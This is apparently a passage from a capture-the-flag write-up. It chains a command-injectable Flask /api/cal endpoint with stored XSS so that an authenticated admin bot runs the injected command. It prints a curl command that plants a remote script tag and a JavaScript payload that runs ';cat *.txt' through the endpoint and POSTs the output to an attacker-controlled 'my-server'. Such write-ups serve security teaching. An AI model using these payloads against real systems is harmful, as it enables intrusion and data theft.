 ```python
    
    modifier = request.args.get('modifier','')
    
    return '{"cal": "'+subprocess.getoutput("cal "+modifier)+'"}'


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337, threaded=True)
```
After noticing the port of this server we can say that the bot visits this server and we can control the endpoint.

The /api/cal endpoint is interesting it take input from get parameter modifier and passes it to subprocess.getoutput which run command on the server. This is vulnerable to command injection but we can't access it because we don't have access to SECRET which is required to authenticate but the bot has it so we can use the bot to send the request.

The bot also has a check that blocks us from accessing /api/cal the bot checks if cal is present in the endpoint if it is it will not visit the url.
Next I tried to find the hidden server it was also public but kept hidden to us.
hidden server: http://chal.competitivecyber.club:13337/
known server: http://chal.competitivecyber.club:13336/

We are also given 2 endpoints in hidden that we can use to add and read data on tge server after seeing this i thought of xss.
We can store our xss payload in the hidden and make the bot visit the endpoint to read the xss payload.

My xss payload:
```
curl -v http://chal.competitivecyber.club:13337/api/stats -H "Content-Type: application/json" --data @payload /

payload file : {"username":"<script src=http://my-server/payload.js></script>","high_score":"10"}
```
I used this payload to make is easier for me to change the payload again and again.
The actual payload is in payload.js:
```
const fetchEndpoint = '/api/cal?modifier=;cat *.txt';
const reportEndpoint = 'http://my-server/report';
  fetch(fetchEndpoint)
  .then(res => res.text())
  .then(data => fetch(reportEndpoint, {
    method: 'POST',
    headers: { 'Content-Type': 'text/plain' },
    body: data
  }))
  .catch(error => fetch(reportEndpoint, {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ error: error.message })
   }));
```
This fetch /api/cal?modifier=;cat *.txt and sends it to your server. This expoits the command injection vulnerability.

